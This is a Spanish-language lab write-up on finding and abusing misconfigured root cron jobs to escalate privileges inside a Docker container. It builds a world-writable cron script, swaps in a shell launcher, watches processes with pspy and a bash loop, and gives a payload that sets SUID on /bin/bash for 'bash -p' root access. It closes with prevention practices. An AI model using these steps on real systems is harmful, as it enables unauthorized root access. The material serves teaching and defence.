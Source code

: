 
---
# Laboratorio: Detección y Explotación de Tareas Cron

## Introducción

Una tarea cron es un trabajo programado en sistemas Unix/Linux que se ejecuta en momentos determinados o en intervalos regulares. Estas tareas están definidas en archivos crontab, que especifican qué comandos deben ejecutarse y cuándo.

La detección y explotación de tareas cron es una técnica común en la escalada de privilegios, ya que una tarea cron mal configurada puede permitir la ejecución de código con privilegios elevados, generalmente del usuario `root`.

---

## Objetivo

Detectar tareas cron activas, revisar permisos de archivos relacionados, y aprovechar configuraciones inseguras para escalar privilegios.

---

## Despliegue y configuración inicial

Acción:

```bash
docker pull ubuntu:latest
docker run -dit --name cronLab ubuntu
docker exec -it cronLab bash
apt update && apt install -y cron nano wget
service cron start
````

Resultado:

```bash
root@<container_id>:/#
```

Explicación: Desplegamos un contenedor Ubuntu, instalamos cron y lo iniciamos para simular tareas programadas.

---

## Inspección de tareas cron existentes

Acción:

```bash
cat /etc/crontab
ls -la /etc/cron.* /var/spool/cron/crontabs/
crontab -l
```

Resultado:

Se listan las tareas programadas del sistema y del usuario root (u otros usuarios).

Explicación: Revisamos las tareas cron configuradas para detectar posibles scripts o comandos que se ejecutan regularmente.

---

## Creación de una tarea cron vulnerable para explotación

Acción:

```bash
echo -e '#!/bin/bash\ncp /root/flag.txt /tmp/flag.txt' > /usr/local/bin/cronjob.sh
chmod 755 /usr/local/bin/cronjob.sh
echo "* * * * * root /usr/local/bin/cronjob.sh" >> /etc/crontab
```

Resultado:

```bash
-rwxr-xr-x 1 root root 38 Jun 14 14:00 /usr/local/bin/cronjob.sh
```

Explicación: Creamos un script que copia un archivo sensible y lo configuramos para que cron lo ejecute cada minuto como root. Si un atacante puede modificar el script, puede ejecutar código arbitrario con privilegios elevados.

---

## Simulación de explotación: manipulando el script

Acción:

```bash
chmod 777 /usr/local/bin/cronjob.sh
echo -e '#!/bin/bash\n/bin/bash' > /usr/local/bin/cronjob.sh
```

Explicación: Damos permisos de escritura a otros usuarios (vulnerabilidad) y modificamos el script para lanzar una shell con privilegios root cuando se ejecute el cronjob.

---

## Monitorización de tareas con [[Pspy]]

Acción:

```bash
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64
./pspy64
```

Resultado: Pspy muestra en tiempo real las tareas cron y comandos ejecutados en el sistema.

Explicación: Usamos pspy para detectar cuándo se ejecutan tareas cron, incluso si el usuario no tiene permisos de root ni acceso a los archivos cron.

---

## Script para monitorización de tareas cron

```bash
#!/bin/bash

# script para escanear tareas cron

old_process=$(ps -eo user,command)

while true; do
  new_process=$(ps -eo user,command)
  diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
  old_process=$new_process
done
```

Si descubriéramos un script que se ejecutara como tarea cron, con permisos de escritura y que fuera propietario de root y por tanto se ejecutara como root, podríamos modificar ese script y añadir esto:

```bas
#!/bin/bash

sleep 2
chmod u+s /bin/bash
```

De este modo cuando se ejecute la tarea cron y ejecute este script, asignará permisos SUID al binario `/bin/bash` por lo que elevaríamos privilegios haciendo:

```bash
bash -p
```

---

## Buenas prácticas para prevenir explotación de cron

- Limitar y auditar las tareas cron que se ejecutan en el sistema.
    
- Configurar permisos estrictos en scripts y archivos ejecutados por cron.
    
- Evitar tareas cron con permisos root a menos que sea estrictamente necesario.
    
- Monitorizar cambios y ejecución de tareas usando herramientas como Pspy.
    
- Configurar logs detallados para cron (`/var/log/syslog` o `/var/log/cron`).
    

---

## Referencias

- [Pspy en Github](https://github.com/DominicBreuker/pspy)
    

---


